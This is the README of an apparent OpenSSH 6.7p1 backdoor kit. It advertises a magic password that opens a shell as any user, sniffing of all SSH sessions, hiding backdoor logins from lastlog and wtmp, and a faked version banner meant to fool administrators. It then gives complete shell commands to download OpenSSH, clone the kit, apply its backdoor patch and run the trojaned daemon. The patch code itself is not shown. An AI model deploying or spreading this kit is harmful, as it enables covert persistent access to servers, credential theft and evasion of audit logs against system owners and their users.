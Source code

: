# OpenSSH 6.7p1 backdoor kit

## coded by bl0w. bl0w@koresec.org

## Features:

 - magic password to get shell with any user (encrypted or no)
 - sniffs all in/out from ssh/sshd, log file encrypted or no.
 - you can chose directory of log decryptor and directory of sniff-logs.
 - all connections accepted by backdoor wont logged by lastlog/wtmp/udp.
 - simple setup, just setup.sh!
 - fake banner and fake version, if admin do ssh -v or sshd -v banner will be faked! :~

## Get started:
## Follow instructions, it`s very easy!

```bash
$ apt-get install -y libpam0g-dev git wget make gcc libssl-dev zlibc zlib1g zlib1g-dev
$ wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz
$ tar -xzvf openssh-6.7p1.tar.gz
$ cd openssh-6.7p1
$ git clone https://github.com/jivoi/openssh-backdoor-kit.git
$ cp -v openssh-backdoor-kit/* ./
$ patch -p1 < backdoor.patch
$ sh setup.sh
```

## You can manually start:

```bash
$ /etc/init.d/ssh stop
$ /root/openssh-6.7p1/sshd -dd -f /etc/ssh/sshd_config
```
